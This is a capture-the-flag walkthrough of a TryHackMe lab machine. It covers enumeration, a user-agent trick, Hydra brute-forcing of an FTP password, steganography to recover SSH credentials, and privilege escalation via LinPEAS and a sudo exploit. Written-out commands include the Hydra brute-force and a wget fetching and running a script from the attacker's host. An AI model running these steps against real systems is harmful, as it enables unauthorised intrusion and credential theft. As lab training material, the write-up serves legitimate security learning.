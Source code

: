 # Enumeration

We start running autorecon. Preliminary results tell us that three ports are running.

![83ab1f7927d0db6d648ce4f6f4bb27b6.png](./_resources/83ab1f7927d0db6d648ce4f6f4bb27b6.png)

We follow up with a quick nmap scan for all ports, then a more detailed scan of the ports and services we found.

![65fa27edc75feb507fde944a97a4ccc6.png](./_resources/65fa27edc75feb507fde944a97a4ccc6.png)

Navigating the the web server, we see an announcement.

![457168279e46fb7a564b2236f74704ca.png](./_resources/457168279e46fb7a564b2236f74704ca.png)

After a bit of messing around, we realize that the `user-agent` is referring to the user agent [HTTP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent) which identifies the browser accessing a website. It seems that in order to discovery any new directories, we need to [alter the user-agent](https://winaero.com/change-user-agent-firefox/) value. To do this in Firefox, we navigate to `about:config`, add (if necessary) a valued named `general.useragent.override`, and add a value as a string.

![57e5ebd35be475213ddef4b1d8bfc061.png](./_resources/57e5ebd35be475213ddef4b1d8bfc061.png)

![9944bc69145d3eaae5d7477ef6f1aa50.png](./_resources/9944bc69145d3eaae5d7477ef6f1aa50.png)

Now we can mess with this to see what we can do. Recall that we are using codenames for the user-agent value. The only codename we have so far is Agent R. If we just use `R` as the user-agent value and refresh the main web page, we get something new:

![c48045945dadd8e4609f2a73875123aa.png](./_resources/c48045945dadd8e4609f2a73875123aa.png)

So, it seems that the codenames correspond to letters of the English alphabet (25 employees + R, who seems to have some more authority). Eventuallty, we find that setting the user-agent as `C`, we find a new directory at `http://10.10.21.215/agent_C_attention.php`. 

![a35289fd0541b559edc2f32f5af1e1cf.png](./_resources/a35289fd0541b559edc2f32f5af1e1cf.png)

Now we have the username `chris`, and we know that Chris' password is weak -- there's our initial vulnerability.

<br>

# Exploitation

Now that we've identified a username, let's try using Hydra to bruteforce the password. We have two services to mess with: FTP and SSH. It looks like the task wants us to investigate FTP first, so let's look there. Let's use `hydra -l chris -P /usr/share/wordlists/rockyou.txt -t 30 10.10.21.215 ftp` to run Hydra. (Here, `-t` specifies the number of tasks to run in parallel. The default is 16.) After a short while, we find Chris' FTP password which we can use to access the FTP server.

![b6b32f3a61a4af9b92dcfe504a130332.png](./_resources/b6b32f3a61a4af9b92dcfe504a130332.png)

![1436665fffce3ab381adf1bf6a14e61d.png](./_resources/1436665fffce3ab381adf1bf6a14e61d.png)

Within the FTP server, we find a couple of pictures and a text file, which reads:

![3fccf99993e19a1085f6feff11deb2eb.png](./_resources/3fccf99993e19a1085f6feff11deb2eb.png)

This confirms that some potentially useful data is hiding within the images we found. We'll have to make use of some [steganography tools](https://0xrick.github.io/lists/stego/). If we use `strings` on the png file, we find something notable at the end of the output.

![6dd1eae369625238da7a67957c5ddad0.png](./_resources/6dd1eae369625238da7a67957c5ddad0.png)

Okay, so it looks like the png is hiding a txt file. If we use `steghide` on the jpg (note that png is not supported), we are prompted for a passphrase which we don't have. Using `binwalk` on the png confirms our earlier suspicion. Investigating the extracted folder reveals an encrypted zip file (the `To_agentR.txt` appears blank).

![5564bcd375776a11ad437b37f2556ce7.png](./_resources/5564bcd375776a11ad437b37f2556ce7.png)

![ef00eea6a3ab2156d88c3ec6cb130cd0.png](./_resources/ef00eea6a3ab2156d88c3ec6cb130cd0.png)

We can use zip2john to extract a hash file from the zip file. We then run john against this hash file to find the password.

![ae49158cc765f5230192eac5a8427b4c.png](./_resources/ae49158cc765f5230192eac5a8427b4c.png)

Using the password we found, we can finally extract the encrypted zip file in order to obtain the `To_agentR.txt` file, which includes a seemingly encoded phrase/name.

![578a34684cfc3daffa0140239b2e7e25.png](./_resources/578a34684cfc3daffa0140239b2e7e25.png)

The encoded name looks like base 64. Decoding it reveals a location which the picture needs to be sent to. This turns out to be the passphrase to the jpg we found earlier. Reading the message file gives us a new username, `james`, together with his password -- all in one go!

![c8d29e8886569575ccab8e83903d85bb.png](./_resources/c8d29e8886569575ccab8e83903d85bb.png)

![ad0f0180e2a3fef3d14abe3989455d4b.png](./_resources/ad0f0180e2a3fef3d14abe3989455d4b.png)![78d149b9c129c98477b0c5c182f7f697.png](./_resources/78d149b9c129c98477b0c5c182f7f697.png)

Now we can SSH into the target machine using James' credentials. (Note: The exclamation mark in the above screenshot is part of the password!) The user flag is in James' home directory.

As part of the THM room, we are also asked: `What is the incident of the photo called?` In James' home directory we also find a photo, which we need to investigate in order to answer the question. Set up a web server on the target machine using `python3 -m http.server 9999`, navigate to `http://<target IP>:9999` on the attacking machine, and download the jpg. A quick reverse image search gives us our answer.

<br>

# Post-exploitation

Now that we have initial access, let's escalate our privileges.  We will use LinPEAS to try and find an avenue for privesc. Within the directory containing the `linpeas.sh` file, host a web server on the attacking machine with `python3 -m http.server`. On the target machine, download LinPEAS with `wget http://<attacker IP>:8000/linPEAS.sh` and use `chmod +x linpeas.sh` to make the file executable. Now run LinPEAS with `./linpeas.sh`. Examining the output doesn't seem to give us anything immediately useful, but LinPEAS does remind us to use `sudo -l` to check our user's sudo privileges.

![ce32180f17b28cf17f8604e8e33dd8e1.png](./_resources/ce32180f17b28cf17f8604e8e33dd8e1.png)

![71c5b6c5b7fa301d5daaa10adfc8b1c4.png](./_resources/71c5b6c5b7fa301d5daaa10adfc8b1c4.png)

Okay, so James can invoke bash with sudo. However, we run into a problem:

![a2b37a66ea1721322e4a64375c629f2d.png](./_resources/a2b37a66ea1721322e4a64375c629f2d.png)

Let's look into this a bit further. If we Google `sudo /bin/bash exploit`, the first result gives us an exploit we can use. This also gives us the CVE number we need for the THM task.

![c001631cd1a58fe2743eb7432436dbd6.png](./_resources/c001631cd1a58fe2743eb7432436dbd6.png)

Downloading and running the exploit on the target machine immediately gives us a root shell. Almost immediately, we find the root flag.

![3509d7c9f3102cde82aee0a9bcffd5fe.png](./_resources/3509d7c9f3102cde82aee0a9bcffd5fe.png)

![ad7ca571cf47e73e8403e26f22bfa28e.png](./_resources/ad7ca571cf47e73e8403e26f22bfa28e.png)

